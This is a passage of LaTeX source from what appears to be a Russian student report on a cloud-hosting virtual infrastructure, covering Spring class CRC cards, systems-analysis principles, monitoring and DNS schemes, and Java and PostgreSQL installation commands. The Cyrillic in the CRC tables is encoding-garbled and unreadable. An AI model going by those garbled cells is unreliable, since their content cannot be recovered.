\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� ImageClassifier}\label{crc-table-78}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class &  \\
\multicolumn{2}{|c|}{ImageClassifier} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
\multirow{2}{=}{ �����䨪��� ����ࠦ���� } 
& \bdot Prediction \\
& \bdot Label \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� Label}\label{crc-table-79}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class & Comparable \\
\multicolumn{2}{|c|}{Label} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
  POJO, �������騩 ����⭮��� �ਭ��������� � ������ � �����  & \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� KerasInceptionV3Net}\label{crc-table-80}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class &  \\
\multicolumn{2}{|c|}{KerasInceptionV3Net} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
  ����� ���஭��� ��  & \bdot Label \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� Prediction}\label{crc-table-81}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class &  \\
\multicolumn{2}{|c|}{Prediction} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
  �।��������� ���஭��� ��  & \bdot Label \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� UserDetailService}\label{crc-table-82}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class &  \\
\multicolumn{2}{|c|}{UserDetailService} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
\multirow{5}{=}{ �࠭�� ���짮��⥫� ⥪�饩 ��ᨨ } 
& \bdot CurrentUser \\
& \bdot UserRepository \\
& \bdot Privilege \\
& \bdot Role \\
& \bdot UserAccount \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� MetricRegistrySingleton}\label{crc-table-83}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class &  \\
\multicolumn{2}{|c|}{MetricRegistrySingleton} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
  �뢮��� ���ଠ�� � ⥪��� ����� � ���  & \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� FileStorageException}\label{crc-table-84}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class & RuntimeException \\
\multicolumn{2}{|c|}{FileStorageException} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
  �᪫�祭�� � 䠩����� �࠭����  & \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� MyFileNotFoundException}\label{crc-table-85}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class & RuntimeException \\
\multicolumn{2}{|c|}{MyFileNotFoundException} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
   �᪫�祭�� �� ���������饬 䠩��. �����頥� ��� 404  & \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� CurrentUser}\label{crc-table-86}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class & User \\
\multicolumn{2}{|c|}{CurrentUser} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
  ����� ���짮��⥫�, �易���� � ���짮��⥫�� �� �� ��� ��ᨨ  & \bdot UserAccount \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� UserValidator}\label{crc-table-87}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class & Validator \\
\multicolumn{2}{|c|}{UserValidator} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
  �������� ���짮��⥫� �� ॣ����樨  & \bdot UserAccount \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� ValidPassword}\label{crc-table-88}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline interface &  \\
\multicolumn{2}{|c|}{ValidPassword} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
  �������� ��஫�  & \bdot UserAccount \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� EmailValidator}\label{crc-table-89}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class & ConstraintValidator \\
\multicolumn{2}{|c|}{EmailValidator} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
  �������� email  & \bdot UserAccount \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� PasswordMatches}\label{crc-table-90}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline interface &  \\
\multicolumn{2}{|c|}{PasswordMatches} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
  ����� ��� ��� ����୮�� ����� ��஫��  & \bdot UserAccount \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� ValidEmail}\label{crc-table-91}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline interface &  \\
\multicolumn{2}{|c|}{ValidEmail} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
  �������� email  & \bdot UserAccount \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� EmailExistsException}\label{crc-table-92}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class & Throwable \\
\multicolumn{2}{|c|}{EmailExistsException} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
  �᪫�祭�� �� 㦥 �������饬 ���짮��⥫� � ����� email  & \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� PasswordMatchesValidator}\label{crc-table-93}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class & ConstraintValidator \\
\multicolumn{2}{|c|}{PasswordMatchesValidator} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
\multirow{2}{=}{ �������� ��� ��� ����୮�� ����� �࠮�� } 
& \bdot UserDto \\
& \bdot PasswordMatches \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� PasswordConstraintValidator}\label{crc-table-94}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class & ConstraintValidator \\
\multicolumn{2}{|c|}{PasswordConstraintValidator} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
  �������� ��஫��  & \bdot PasswordMatches \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� ServiceConfig}\label{crc-table-95}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class &  \\
\multicolumn{2}{|c|}{ServiceConfig} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
  ���䨣��樮��� 䠩� ��� �ࢨᮢ  & \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� SecSecurityConfig}\label{crc-table-96}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class & WebSecurityConfigurerAdapter \\
\multicolumn{2}{|c|}{SecSecurityConfig} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
  ���䨣��樮��� 䠩� Spring security  & \bdot PasswordMatches \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� MvcConfig}\label{crc-table-97}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class & WebMvcConfigurer \\
\multicolumn{2}{|c|}{MvcConfig} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
\multirow{2}{=}{ ���䨣��樮��� 䠩� MVC spring } 
& \bdot EmailValidator \\
& \bdot PasswordMatchesValidator \\
\hline 
\end{tabular}
\end{table}

\begin{table}[H]
\caption{CRC ����窠 ����� SetupDataLoader}\label{crc-table-last}
\begin{tabular}{|p{8cm} p{8cm}|} 
\hline class & ApplicationListener \\
\multicolumn{2}{|c|}{SetupDataLoader} \\ \hline
\end{tabular}
\begin{tabular}{|p{8cm}|p{8cm}|} 
\multirow{6}{=}{ ���樠������ ������ �� ����᪥ �ࢨ� } 
& \bdot PrivilegeRepository \\
& \bdot RoleRepository \\
& \bdot UserRepository \\
& \bdot Privilege \\
& \bdot Role \\
& \bdot UserAccount \\
\hline 
\end{tabular}
\end{table}


\clearpage % Обзор современных методов и технологий серверной виртуализации
\section{Системный анализ виртуальной инфраструктуры}

На данный момент при анализе и синтезе сложных программных и аппаратных систем все чаще используется системный подход.
Важным моментом для системного подхода является определение структуры системы --- совокупности связей между элементами системы, отражающих их взаимодействие.

Принципы системного анализа --- это положения общего характера, являющиеся обобщением опыта работы человека со сложными системами.
Пренебрежение принципами при проектировании любой нетривиальной технической системы, непременно приводит к потерям того или иного характера, от увеличения затрат в процессе проектирования до снижения качества и эффективности конечного продукта.

Системный анализ выполнен в соответствии с \cite{sys-analyz}.

\subsection{Принцип конечной цели} \label{goal}

Принцип конечной цели --- основополагающий принцип системного анализа.
Конечная цель имеет абсолютный приоритет, в системе все должно быть подчинено достижению конечной цели.
Принцип имеет несколько правил:
\begin{itemize}
  \item для проведения системного анализа необходимо в первую очередь, сформулировать цель функционирования системы, так как расплывчатые, не полностью определенные цели влекут за собой неверные выводы;
  \item анализ системы следует вести на базе первоочередного уяснения основной цели исследуемой системы, что позволит определить ее существенные свойства, показатели качества и критерии оценки;
  \item при синтезе систем любая попытка изменения или совершенствования должна быть в первую очередь рассмотрена с позиции его полезности в достижении конечной цели;
  \item цель функционирования искусственной системы задается, как правило, системой, в которой исследуемая система является составной частью.
\end{itemize}

В соответствии с данным принципом должна быть четко сформулирована конечная цель --- назначение проектируемой системы и сформирован список функций, которые должна выполнять система.

Цель проектирования --- разработка виртуальной инфраструктуры для реализации облачных услуг.
Список функций проектируемой системы:
\begin{itemize}
  \item Ф1 --- прием и регистрация обращений пользователей;
  \item Ф2 --- идентификация и обработка инцидентов и запросов на обслуживание;
  \item Ф3 --- создание, смена, обновление и удаление услуг по требованию;
  \item Ф4 --- предоставление доступа к услугам;
  \item Ф5 --- мониторинг состояния инфраструктуры.
\end{itemize}

\subsection{Принцип единства}

Принцип единства --- это совместное рассмотрение системы как целого и как совокупности частей.
Принцип ориентирован на декомпозицию с сохранением целостных представлений о системе.
Система должна рассматриваться и как целое, и как совокупность элементов.
Расчленение системы необходимо производить, сохраняя целостное представление о системе.
Принцип подразумевает выделение подсистем, композиция которых в совокупности со связями позволяет выполнять все функции проектируемой системы, определяет ее структуру и может быть рассмотрена как единая, целостная система.

На основании функций проектируемой системы, представленных выше, в ней можно выделить следующие подсистемы:
\begin{enumerate}
  \item подсистема взаимодействия с пользователем;
  \item подсистема управления услугами;
  \item подсистема управления инфраструктурой;
  \item подсистема защиты и обеспечения целостности данных.
\end{enumerate}

На рис. \ref{subsystems} представлена схема взаимодействия между подсистемами.
\addimg{subsys}{0.8}{Взаимодействие между подсистемами и их связь с окружающей средой}{subsystems}

Обозначения, приведенные на рис. \ref{subsystems} требуют пояснения:
\begin{itemize}[label={}]
  \item a --- информация, предоставляемая пользователем, передается на сервер;
  \item b --- выходная информация (результат выполнения);
  \item c --- проверка корректности переданных данных;
  \item d --- в случае неправильно введенных данных, возвращается управление к подсистеме взаимодействия с пользователем;
  \item e --- создание услуги;
  \item f --- возврат информации о созданной услуге;
  \item g --- обеспечение целостности информации об услуге;
  \item h --- обеспечение целостности данных пользователя.
\end{itemize}

\subsection{Принцип связности}

Любая часть системы должна рассматриваться со всеми своими связями с окружающими ее объектами, как внешними по отношению ко всей системе, так и внутренними --- другими элементами системы.
Если некоторая подсистема имеет связи только с внешней средой, то есть смысл реализовать ее в виде отдельной системы.
Подсистема, не связанная ни с внешней средой, ни с другой подсистемой, является избыточной и должна быть удалена из системы.

Подсистема взаимодействия с пользователем представлена на рис. \ref{user-subsys}.
\addimg{user-subsys}{1}{Внутренние и внешние связи подсистемы взаимодействия с пользователем}{user-subsys}

Подсистема управления услугами представлена на рис. \ref{service-subsys}.
\addimg{service-subsys}{1}{Внутренние и внешние связи подсистемы управления услугами}{service-subsys}

Подсистема управления инфраструктурой представлена на рис. \ref{infrast-subsys}.
\addimg{infrast-subsys}{1}{Внутренние и внешние связи подсистемы управления инфраструктурой}{infrast-subsys}

Подсистема защиты и обеспечения целостности данных представлена на рис. \ref{security-subsys}.
\addimg{security-subsys}{1}{Внутренние и внешние связи подсистемы защиты и обеспечения целостности данных}{security-subsys}

\subsection{Принцип модульности}

В соответствии с этим принципом, выделение модулей системы, если таковые имеются, продуктивно и оправдано.
Под модулями здесь понимаются относительно автономные и достаточно простые блоки, выполняющие ограниченный набор функций.
Модуль в отличие от подсистем, которые имеют нерегулярную структуру и, как правило, несут определенную функцию, частично отражающую функцию системы, имеет регулярную структуру и характерные для него внутренние и внешние связи.
Принцип указывает на возможность вместо части системы исследовать совокупность ее входных и выходных воздействий.
Выделению модулей соответствует декопмозиция сложной задачи на множество более простых подзадач.

Принцип модульности для разрабатываемой системы поясняется с помощью рис. \ref{modules}, описывающего разбиение на модули системы взаимодействия с пользователем.
\addimghere{modules}{0.65}{Принцип модульности на примере подсистемы взаимодействия с пользователем}{modules}

Излишняя детализация не требуется, поэтому остальные системы на модули принято решение не разбивать.

\subsection{Принцип функциональности}

Принцип определяет первичность функции по отношению к структуре, так же, как цель первична для функции.
Другими словами, цель определяет функции системы, а функции определяют ее структуру --- совокупность элементов с их связями.
Структура же, в свою очередь, определяет параметры системы.
В случае придания системе новых функций полезно пересматривать ее структуру, а не пытаться втиснуть новую функцию в старую схему.
Поскольку выполняемые функции составляют процессы, то целесообразно рассматривать отдельно процессы, функции, структуры.

Функции подсистем приведены в пункте \ref{goal}.

Матрица инциденций функций системы и функций назначения подсистем приведена в таблице \ref{inc-matrix}.
\begin{table}[H]
  \caption{Матрица инциденций}\label{inc-matrix}
  \begin{tabular}{|c|c|c|c|c|c|}
  \hline \multirow{2}{*}{Функции} & \multicolumn{4}{|c|}{Подсистемы} & \multirow{2}{*}{Виртуальная инфраструктура} \\
  \cline{2-5} & 1 & 2 & 3 & 4 & \\
  \hline Ф1 & + & & & & + \\
  \hline Ф2 & + & & & & + \\
  \hline Ф3 & & + & & & + \\
  \hline Ф4 & & + & & & + \\
  \hline Ф5 & & & + & + & + \\
  \hline 
  \end{tabular}
\end{table}

В матрице инциденций знаком <<+>> обозначены функции, которые реализуются для каждой из подсистем.

Детализация функций подсистемы на примере подсистемы взаимодействия с пользователем:
\begin{enumerate}
  \item регистрация и авторизация пользователя в платежной системе;
  \item обеспечение перечня услуг;
  \item обеспечение возможных способов оплаты услуг;
  \item возможность уточнения или изменения услуги.
\end{enumerate}

Входными данными для подсистемы является информация о пользователе, а выходными --- подтвержденный заказ услуг.

\subsection{Принцип иерархии}

Полезно введение иерархии частей и их ранжирование, что упрощает разработку системы и устанавливает порядок рассмотрения частей.
Разработка иерархий классов является нетривиальной задачей.
Грамотно спроектированные иерархии классов позволяют создавать высокоэффективные системы, плохо спроектированная иерархия приводит к созданию сложных и запутанных систем.

Выполнение принципа иерархичности для разрабатываемой системы на примере подсистемы защиты и обеспечения целостности данных проиллюстрировано на рис. \ref{hierarchy-princ}.
\addimghere{hierarchy-princ}{1}{Принцип иерархии на примере подсистемы защиты и обеспечения целостности данных}{hierarchy-princ}

\subsection{Принцип сочетания централизации и децентрализации}

Степень централизации должна быть минимальной, обеспечивающей выполнение поставленной цели.
Соотношение централизации и децентрализации определяется уровнями, на которых вырабатываются и принимаются управленческие решения.

Недостатком децентрализованного управления является увеличение времени адаптации системы, которое существенно влияет на функционирование системы в быстро меняющихся средах.
То, что в централизованных системах можно сделать за короткий промежуток времени, в децентрализованной системе будет осуществляться весьма медленно.
Недостатком централизованного управления является сложность управления из-за огромного потока информации, подлежащей переработке в старшей системе управления.
В медленно меняющейся обстановке децентрализованная часть системы успешно справляется с адаптацией поведения системы к среде и с достижением глобальной цели системы за счет оперативного управления, а при резких изменениях среды осуществляется централизованное управление по переводу системы в новое состояние.

Например, можно выполнить декомпозицию подсистемы взаимодействия с пользователем таким образом:
\begin{enumerate}
  \item подсистема работы с пользователями;
  \item подсистема работы пользователей с услугами;
  \item подсистема учета финансовых средств.
\end{enumerate}

Такое разбиение позволит реализовать полученные подмножества в виде отдельных модулей.

\subsection{Принцип развития}

Учет изменяемости системы, ее способности к развитию, адаптации, расширению, замене частей, накапливанию информации.
В основу синтезируемой системы требуется закладывать возможность развития, наращивания усовершенствования.
Обычно расширение функций предусматривается за счет обеспечения возможности включения новых модулей, совместимых с уже имеющимися.
С другой стороны, при анализе принцип развития ориентирует на необходимость учета предыстории развития системы и тенденций, имеющихся в настоящее время, для вскрытия закономерностей ее функционирования.

Одним из способов учета этого принципа разработчиками является рассмотрение системы относительно ее жизненного цикла.
Условными фазами жизненного цикла являются: проектирование, изготовление, ввод в эксплуатацию, эксплуатация, наращивание возможностей (модернизация), вывод из эксплуатации (замена), уничтожение.

Отдельные авторы этот принцип называют принципом изменения (историчности) или открытости.
Для того чтобы система функционировала, она должна изменяться, взаимодействовать со средой.

Проектируемая система может быть развита следующим образом:
\begin{itemize}
  \item добавлением модуля конвертации валюты для оплаты услуги;
  \item расширением перечня услуг;
  \item внедрением дополнительных технологий виртуализации;
  \item увеличением штата технической поддержки;
  \item введением расширенного мониторинга;
  \item многоуровневой защитой от атак на отказ;
  \item расширением памяти на системах хранения данных;
  \item многоуровневой репликацией и резервным копированием.
\end{itemize}

\subsection{Принцип учета случайностей}

Можно иметь дело с системой, в которой структура, функционирование или внешние воздействия не полностью определены.

Сложные системы не всегда подчиняются вероятностным законам.
В таких системах можно оценивать <<наихудшие>> ситуации и проводить рассмотрение для них.
Этот способ обычно называют методом гарантируемого результата, он применим, когда неопределенность не описывается аппаратом теории вероятностей.

При наличии информации о вероятностных характеристиках случайностей можно определять вероятностные характеристики выходов в системе.

События и действия, некорректные с точки зрения правил функционирования системы:
\begin{itemize}
  \item попытка заказа услуги без наличия финансовых средств на счету;
  \item неподтвержденные заказы услуг;
  \item сбой в работе аппаратуры, в частности устройств хранения данных;
  \item сбой сети в в пределах дата-центра или на магистрали;
  \item отсутствие своевременной работы технической поддержки;
  \item ошибки и уязвимости в используемых программных платформах.
\end{itemize}

Кроме того, необходимо вести контроль успешности и целостности проведения операций с компонентами системы, данными пользователей и корректно обрабатывать исключения, возникновение которых возможно в процессе работы системы.

Перечисленные выше принципы обладают высокой степенью общности.
Такая интерпретация может привести к обоснованному выводу о незначимости какого-либо принципа.
Однако, знание и учет принципов позволяет лучше увидеть существенные стороны решаемой проблемы, учесть весь комплекс взаимосвязей, обеспечить системную интеграцию.

\clearpage % Системный анализ виртуальной инфраструктуры
\section{Описание виртуальной инфраструктуры}

В разделе описания виртуальной инфраструктуры представлена общая схема инфраструктуры, схемы мониторинга, репликации и балансировки DNS, используемые технологии виртуализации, алгоритмы взаимодействия пользователя и компонентов инфраструктуры.

\subsection{Общая схема инфраструктуры}

Общая схема инфраструктуры представлена на рис. \ref{infrast-scheme} и чертеже \href{extra/drafts/SevGU_09.03.01.15.A1.pdf}{СевГУ 09.03.01.15.А1}.
\addimghere{infrast-scheme}{1}{Общая схема инфраструктуры}{infrast-scheme}

В дата-центре 1 располагается основная часть инфраструктуры: сервера shared-хостинга, виртуализации OpenVZ и KVM, сервер резервного копирования и выделенные сервера клиентов.

В дата-центре 2 на двух арендованных виртуальных машинах находится один из подчиненных DNS-серверов, а также сервер мониторинга.

На физических серверах располагаются важные элементы инфраструктуры: главный и один подчиненный DNS-сервера, система биллинга и система управления IP-адресами.

\subsection{Схема мониторинга}

Схема мониторинга инфраструктуры представлена на рис. \ref{nagios-munin-scheme}.
\addimghere{nagios-munin-scheme}{1}{Схема мониторинга инфраструктуры}{nagios-munin-scheme}

В случае возникновения проблемы на одном из серверов, Nagios фиксирует изменения и отправляет текстовые уведомления по SMS и электронной почте дежурному администратору, который следит за системой мониторинга.
Nagios работает по протоколу NRPE (Nagios Remote Plugin Executor) и слушает порт 5666.

Munin имеет возможность визуализировать состояние ресурсов с помощью графиков, наблюдая за графиками можно делать выводы о событиях, происходящих в инфраструктуре.
Munin работает по протоколу MGF (Munin Graphing Framework) на порту 4949.

Помимо физических серверов, мониторятся также виртуальные машины, на которых располагаются сервисы инфраструктуры, а также некоторые виртуальные машины клиентов, по требованию.

\subsection{Схема репликации и балансировки нагрузки DNS-серверов}

С целью обеспечения отказоустойчивости системы была разработана следующая схема репликации и балансировки нагрузки DNS-серверов.
Схема представлена на рис. \ref{dns-scheme}.
\addimghere{dns-scheme}{1}{Схема репликации и балансировки нагрузки DNS-серверов}{dns-scheme}

В каждой зоне есть один главный сервер имен на котором хранится официальная копия данных зоны.
Администратор модифицирует информацию, касающуюся зоны, редактируя файлы главного сервера \cite{unix-handbook}.
Подчиненный (slave) сервер копирует свои данные с главного сервера посредством операции, называемой передачей зоны (zone transfer).
В зоне имеется два подчиненных сервера, один из которых располагается в другом дата-центре.

На главном сервере установлен DNS-сервер PowerDNS.
На подчиненных серверах --- BIND 9.

Балансировка нагрузки осуществляется по алгоритму Round Robin (алгоритм кругового обслуживания).
Алгоритм представляет собой перебор по круговому циклу: первый запрос передается одному серверу, затем следующий запрос передается другому и так до достижения последнего сервера \cite{selectel}.

\subsection{Используемые технологии виртуализации}

На основе обзора литературы, проведенного в пункте \ref{literature}, выбраны и внедрены технологии виртуализации OpenVZ (для организации контейнеров) и KVM (для организации виртуальных машин).

\subsection{Алгоритмы функционирования инфраструктуры} \label{algo}

Взаимодействие пользователя с инфраструктурой происходит по сценариям, представленным в пункте \ref{user-infr}.

В пункте \ref{infr-comp} представлены сценарии взаимодействия компонентов инфраструктуры.

\subsubsection{Схема взаимодействия пользователя с инфраструктурой} \label{user-infr}

Сценарий 1. Заказ облачного сервиса:
\begin{enumerate}
  \item пользователь обращается к инфраструктуре через веб-интерфейс с целью заказа услуги;
  \item биллинг регистрирует нового пользователя;
  \item заключается договор на предоставление услуги с указанием реквизитов пользователя;
  \item подсистема управления услугами производит выделение физического либо виртуального сервера (контейнера, виртуальной машины), либо иной услуги с требуемыми характеристиками;
  \item переход к сценарию 2.
\end{enumerate}

Сценарий 2. Использование сервиса:
\begin{enumerate}
  \item клиент пользуется предоставленным сервисом некоторый период времени, используя веб-интерфейс (VNC, SSH);
  \item биллинг выставляет счет пользователю за оказанные услуги;
  \item пользователь оплачивает сервис;
  \item переход к пункту а, пока не наступит событие, соответствующее сценариям 3, 4, 5, 6 или 7.
\end{enumerate}

Сценарий 3. Изменение условий предоставления сервиса:
\begin{enumerate}
  \item пользователь желает изменить условия предоставления сервиса, либо отказаться от него;
  \item биллинг регистрирует запрос;
  \item подсистема управления услугами производит изменение условий предоставления сервиса или удаляет его;
  \item переход к сценарию 2, в случае продолжения оказания сервиса, иначе к сценарию 5.
\end{enumerate}

Сценарий 4. Окончание срока действия договора:
\begin{enumerate}
  \item у пользователя окончился срок действия договора;
  \item биллинг блокирует услуги;
  \item если пользователь желает продлить срок действия договора, переход к сценарию 6, иначе к сценарию 5.
\end{enumerate}

Сценарий 5. Окончание использования облачной услуги:
\begin{enumerate}
  \item пользователь желает завершить использование сервиса;
  \item биллинг регистрирует отмену использования сервиса;
  \item подсистема управления услугами удаляет пользовательскую услугу (выделенный сервер, контейнер, виртуальная машина) из списка используемых.
\end{enumerate}

Сценарий 6. Продление договора:
\begin{enumerate}
  \item пользователь обращается к инфраструктуре через веб-интерфейс с целью продления срока действия договора;
  \item биллинг регистрирует факт заключения нового договора;
  \item переход к сценарию 2.
\end{enumerate}

Сценарий 7. Возникновение проблем в работе услуги:
\begin{enumerate}
  \item пользователь обращается к биллингу через веб-интерфейс с целью предоставления заявки на устранение проблемы и информации о возникшей проблеме;
  \item биллинг регистрирует запрос и направляет его технической поддержке;
  \item техническая поддержка первого уровня устраняет проблему, если нет, то заявка передается в отдел системного администрирования;
  \item переход к сценарию 2.
\end{enumerate}

Алгоритмы взаимодействия пользователем с инфраструктурой представлены на чертеже \href{extra/drafts/SevGU_09.03.01.15.A2.pdf}{СевГУ 09.03.01.15.А2}.

\subsubsection{Алгоритм взаимодействия компонентов инфраструктуры} \label{infr-comp}

Сценарий 1. Мониторинг:
\begin{enumerate}
  \item Nagios мониторит состояние сервисов;
  \item Nagios обнаружил недоступность или сбой сервиса;
  \item отправка электронного и SMS-сообщения дежурному администратору;
  \item дежурный администратор исправляет проблему;
  \item переход к пункту а.
\end{enumerate}

Сценарий 2. Резервное копирование:
\begin{enumerate}
  \item запуск задания инкрементального резервного копирования;
  \item расчет свободного дискового пространства на удаленном хранилище для инкрементальной или полной копии;
  \item в случае нехватки дискового пространства на удаленном хранилище --- отправка электронного сообщения системному администратору, переход к пункту е;
  \item архивация и сжатие данных;
  \item передача данных по сети;
  \item конец резервного копирования.
\end{enumerate}

Сценарий 3. Распределение IP-адресов:
\begin{enumerate}
  \item добавлен новый физический сервер, контейнер, виртуальная машина или клиент хостинга заказал дополнительный адрес;
  \item проверка свободного IP-адреса;
  \item если свободного адреса нет, то уведомление о необходимости заказа новой подсети IP-адресов у провайдера, переход к пункту е;
  \item привязка нового IP-адреса к серверу;
  \item удаление привязанного адреса из списка свободных;
  \item конец.
\end{enumerate}

Сценарий 4. Добавление нового сервера:
\begin{enumerate}
  \item заказ услуги физического сервера, контейнера или виртуальной машины;
  \item выделение IP-адресов;
  \item подключение к системе мониторинга;
  \item трансфер или создание зоны на главном DNS-сервере;
  \item подключение к системе резервного копирования;
  \item конец.
\end{enumerate}

Сценарий 5. Добавление нового домена:
\begin{enumerate}
  \item трансфер или создание зоны на главном DNS-сервере;
  \item проверка доступности подчиненных DNS-серверов;
  \item репликация зоны на подчиненные сервера;
  \item ожидание обновления зон провайдера;
  \item проверка работоспособности DNS;
  \item конец.
\end{enumerate}

Алгоритм взаимодействия компонентов инфраструктуры представлен на чертеже \href{extra/drafts/SevGU_09.03.01.15.A3.pdf}{СевГУ 09.03.01.15.А3}.

\clearpage % Описание виртуальной инфраструктуры
\section{Аппаратное обеспечение}
\subsection{Системные требования}
В состав технических средств по обеспечению работы сервиса для качественного обслуживания одновременно до 500 пользователей должен входить минимум один виртуальный или физический сервер, обладающий следующими характеристиками:

\begin{itemize}
  \item 8 и более виртуальных или физических ядер, работающих с набором команд x86, x86-x64 или arm с частотой не менее 2ГГц;
  \item не менее 16 ГБ оперативной памяти;
  \item не менее 1 ТБ пространства на физических носителях, объединенных в избыточный массив независимых дисков не ниже первого уровня;
  \item выделенная линия с пропускной способностью не менее 1 Гбит/с с доступом в сеть интернет или целевую сеть сервиса;
  \item наличие резервного источника питания;
  \item резервный блок питания;
  \item наличие резервной линии с пропускной способностью не менее 400 Мбит/с с доступом в сеть интернет или целевую сеть сервиса;
  \item возможность замены вышедших из строя дисков без необходимости выключения сервера.
\end{itemize}

\subsection{Требования к программному обеспечению}
Для корректной возможности работы сервиса, на сервере должна быть установлена операционная система, поддерживающая работу виртуальной машины Java версии не ниже 1.8 и системы управления базами данных PostgreSQL. База данных может быть заменена на другую при условии дополнительного конфигурирования сервиса. 

\section{Конфигурация окружения}

\subsection{Установка и конфигурация Java окружения}

Способы установки JRE могут отличаться в зависимости от операционной системы. В операционных системах, работающих на ядре linux или BSD способ установки зависит от пакетного менеджера, установленного в системе по умолчанию.
В операционных системах с пакетным менеджером apt-get терминальная команда, устанавливающая JRE выглядит следующим образом:
\begin{lstlisting}
# sudo apt-get update
# sudo apt-get install default-jre
\end{lstlisting}

В операционных системах с пакетным менеджером pkg (например FreeBSD) необходимо выполнить данную команду:
\begin{lstlisting}
# sudo pkg install openjdk8-jre
\end{lstlisting}
После установки JRE необходимо установить переменные среды с помощью команды:
\begin{lstlisting}
# sudo apt-get install oracle-java8-set-default
\end{lstlisting}
или вручную:
\begin{lstlisting}
# export PATH="$PATH:$JAVA_HOME/bin:$JRE_HOME/bin"

# export JAVA_HOME=/usr/lib/jvm/java-8-openjdk-jre
# export JRE_HOME=/usr/lib/jvm/java-8-openjdk-jre
\end{lstlisting}

В операционных системах семейства windows для установки JRE необходимо скачать и запустить исполняемый файл с одного из сайтов с бесплатной реализацией java.
Например, Amazon Corretto с сайта amazon: https://docs.aws.amazon.com/en_us/corretto/latest/corretto-8-ug/downloads-list.html.
После запуска необходимо следовать инструкциям установщика (рисунок \ref{screenshot-corretto}).
\addimghere{screenshot-corretto}{0.8}{Окно установщика Amazon Corretto}{screenshot-corretto}

\subsection{Установка и конфигурация PostgreSQL}

Последовательность действий, необходимая для установки и конфигурации PostgreSQL в операционных системах семейства linux с пакетным менеджером apt-get следующая:
\begin{lstlisting}
# sudo apt-get update
# sudo apt-get install postgresql postgresql-contrib
\end{lstlisting}

Для установки PostgreSQL на операционные системы с пакетным менеджером pkg:
\begin{lstlisting}
# sudo pkg install postgresql11-server postgresql11-client
# sudo sysrc postgresql_enable=yes
# /usr/local/etc/rc.d/postgresql initdb
# /usr/local/etc/rc.d/postgresql start
\end{lstlisting}

Для того, чтобы разрешить подключение к базе данных с устройства, на котором запущен postgresql, необходимо открыть с правами привилегированного пользователя текстовым редактором файл /etc/postgresql/версия_postgresql/main/postgresql.conf и добавить в конец файла строку строку следующего содеражния:
\begin{lstlisting}
